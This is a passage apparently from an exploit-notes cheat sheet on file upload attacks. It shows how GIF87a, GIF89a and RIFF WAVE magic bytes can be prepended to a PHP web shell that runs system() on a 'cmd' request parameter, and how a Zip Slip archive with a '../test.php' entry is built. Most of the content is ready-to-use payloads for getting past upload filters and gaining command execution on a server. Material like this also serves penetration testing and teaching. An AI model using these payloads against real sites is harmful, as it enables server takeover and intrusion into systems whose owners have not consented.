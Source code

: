 ### [GIF](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#gif)

Reference: [Web Design in a Nutshell](https://docstore.mik.ua/orelly/web2/wdesign/ch19_01.htm)

- **GIF87a**: The original format for indexed color images. It uses LZW compression and has the option of being interlaced.
- **GIF89a**: Is the same as **GIF87a** but also includes transparancy and animation capabilities.

|Hex Signature|ISO 8859-1|
|---|---|
|`47 49 46 38 37 61`|`GIF87a`|
|`47 49 46 38 39 61`|`GIF89a`|

Payload example:

```php
GIF87a
<?php echo system($_GET['cmd']); ?>

// or

GIF89a
<?php echo system($_GET['cmd']); ?>
```

### [RIFF WAVE](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#riff-wave)

|Hex Signature|ISO 8859-1|
|---|---|
|`52 49 46 46 ?? ?? ?? ?? 57 41 56 45`|`RIFF????WAVE`|

Payload example:

```bash
RIFF????WAVE
<?php echo system($_GET['cmd']); ?>
```

  

## [Zip](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#zip)

If target website restricts uploads to zip files only, the website (server) may unzip uploaded files internally and displays the result of decompressed file somewhere e.g. `/upload/example.txt`.

### [Zip Slip](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#zip-slip)

Create a file containing ‘../’ in the filename, and compress this file.

```bash
echo '<?php echo system("id");?>' > '../test.php'
zip test.zip '../test.php'
```
